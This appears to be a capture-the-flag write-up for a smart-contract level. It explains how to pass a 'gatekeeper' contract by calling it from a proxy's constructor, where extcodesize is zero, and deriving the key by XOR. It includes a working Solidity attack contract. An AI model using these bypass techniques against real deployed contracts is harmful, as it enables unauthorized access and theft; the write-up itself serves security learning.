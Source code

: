 # Requirements

- Make it past the gatekeeper and register as an entrant to pass this level.

# Attack explanation

Gates:

1. Use a proxy sc.
2. Only work inside proxy sc constructor, so extcodesize is 0.
3. Use XOR property: a XOR key = 0xFF --> a XOR 0xFF = key.

# Attack function

We could solve the challenge by just using the next proxy sc:

```
contract GatekeeperProxy {
    constructor(address _addr) {
        bytes8 bytesKeccak = bytes8(keccak256(abi.encodePacked(address(this))));
        uint64 uintBytesKeccak = uint64(bytesKeccak);
        uint64 theKey = uintBytesKeccak ^ type(uint64).max;
        _addr.call(abi.encodeWithSignature("enter(bytes8)", bytes8(theKey)));
    }
}
```

